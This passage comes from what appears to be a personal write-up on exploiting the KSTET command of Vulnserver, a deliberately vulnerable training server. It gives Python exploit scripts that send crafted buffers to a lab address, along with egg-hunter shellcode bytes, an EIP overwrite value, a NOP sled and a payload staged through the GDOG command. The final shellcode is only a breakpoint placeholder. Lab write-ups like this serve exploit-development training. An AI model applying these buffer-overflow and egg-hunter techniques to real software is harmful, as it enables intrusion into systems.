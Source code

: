 ```python
data = command + buffer

print '[*] Sending data: ' + command + buffer.encode('hex')
s = socket.create_connection(('192.168.185.146',9999))
s.sendall(data)
s.close()
```

I ran into issues when not giving the egg hunter assembly some space to unpack itself - so suggest adding a small nopsled before the payload.

<img src="/images/vulnserver/kstet/kstet-egghunter-w-nopsled.png" alt="kstet-egghunter-w-nopsled" width="700"/>

If you scroll back to the start of the nopsled for the egg hunter code, you can see some of the nops get eaten / disappear. I do not really understand why this happens - you can see only one nop made it of the 4 I sent. If you know the answer  please ping me on twitter [@dunderhay](https://twitter.com/dunderhay). 

<img src="/images/vulnserver/kstet/kstet-egghunter-unpacked.png" alt="kstet-egghunter-unpacked" width="900"/>

To test the egg hunter, we need to insert the egg into final shellcode code cave. We can use another command that will hold the final shellcode payload in meomry until the egg hunter code comes searching for it. The egg is repeated twice (`w00tw00t`) and inserted just before our final shellcode.

The __GDOG__ command is a perfect candicate as it has a large enough buffer space for our egg and final shellcode payload and has no additional restrictions on the buffer (requiring an ascii only payload etc).

```csharp
if (strncmp(RecvBuf, "GDOG ", 5) == 0) {				
    strncpy(GdogBuf, RecvBuf, 1024);
    SendResult = send( Client, "GDOG RUNNING\n", 13, 0 );
}
```

Insert the egg and final shellcode placeholder payload, it is a good idea to use breakpoint instructions (`CC`) as the exploit will pause in the debugger once the egg is located.

```python
#!/usr/bin/env python

import socket
import sys

egg = 'w00tw00t'
shellcode = '\xCC' * 1000
payload = egg + shellcode
command = 'GDOG '
data = command + payload

print '[*] Sending data: ' + command + egg + shellcode.encode('hex')
s = socket.create_connection(('192.168.185.146',9999))
s.sendall(data)
s.close()


nopsled = '\x90' * 4
egghunter = '\x31\xdb\x53\x53\x53\x53\xb3\xc0\x66\x81\xca\xff\x0f\x42\x52\x6a'
egghunter += '\x26\x58\x33\xc9\x8b\xd4\x64\xff\x13\x5e\x5a\x3c\x05\x74\xe9\xb8'
egghunter += '\x77\x30\x30\x74\x8b\xfa\xaf\x75\xe4\xaf\x75\xe1\xff\xe7'
pre_buf = 'A' * (70 - len(egghunter) - len(nopsled))
eip = '\xBB\x11\x50\x62'
jmp = '\x90\xEB\xB5' 
post_buf =  'C' * (26 - len(jmp))
buffer = nopsled + egghunter + pre_buf + eip + jmp + post_buf
command = 'KSTET '
```